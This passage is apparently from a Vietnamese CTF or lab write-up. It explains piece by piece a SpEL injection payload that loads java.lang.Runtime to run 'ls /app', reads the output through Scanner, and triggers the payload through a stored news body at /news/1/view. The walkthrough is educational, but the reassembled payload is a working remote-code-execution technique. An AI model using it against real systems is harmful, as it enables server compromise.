 ```java 
.loadClass("java.util.Scanner")
```

Tải lớp Scanner từ Java API. Lớp này được sử dụng để đọc dữ liệu từ một InputStream.

4. Lấy Constructor phù hợp:

```java 
.getConstructors().?[getParameterCount()==1 and getParameterTypes()[0].getName().equals("java.io.InputStream")][0]
```

- .getConstructors(): Lấy danh sách các constructor của Scanner.
- ?[...]: Lọc constructor có duy nhất một tham số, và tham số đó là java.io.InputStream.
- [0]: Lấy constructor đầu tiên phù hợp.

5. Tạo một đối tượng Scanner:

```java 
.newInstance(...)
```

- Tạo một thể hiện của lớp Scanner bằng cách truyền vào một InputStream.

6. Thực thi lệnh ls /app:

```java 
role.getDeclaringClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("ls /app").getInputStream()
```

- Tải lớp java.lang.Runtime.
- Lấy phương thức getRuntime() để truy cập đối tượng Runtime.
- Gọi phương thức exec("ls /app") để thực thi lệnh ls /app trên hệ thống.
- Kết quả của lệnh được trả về dưới dạng một InputStream.

7. Đọc kết quả từ InputStream:

```java 
.useDelimiter("\\\\A").next()
```

- Sử dụng Scanner để đọc toàn bộ nội dung từ InputStream (kết quả của lệnh ls).
- useDelimiter("\\\\A"): Đặt dấu phân cách là toàn bộ nội dung (\A là ký hiệu cho toàn bộ chuỗi).
- next(): Lấy toàn bộ nội dung từ InputStream.

#### Cách Kết Quả Được Trả Về
Gửi Request để Cập Nhật body:

- Khi bạn gửi payload qua endpoint /news/1 (hàm updateNews), nội dung payload được lưu vào field body trong đối tượng News.

Trigger SpEL Injection:

- Khi bạn truy cập endpoint /news/1/view (hàm renderNewsBody), nội dung body được xử lý bởi hàm newsService.render():

```java 
this.parser.parseExpression(bodyTemplate, this.templateParser).getValue(ctx, String.class);
```
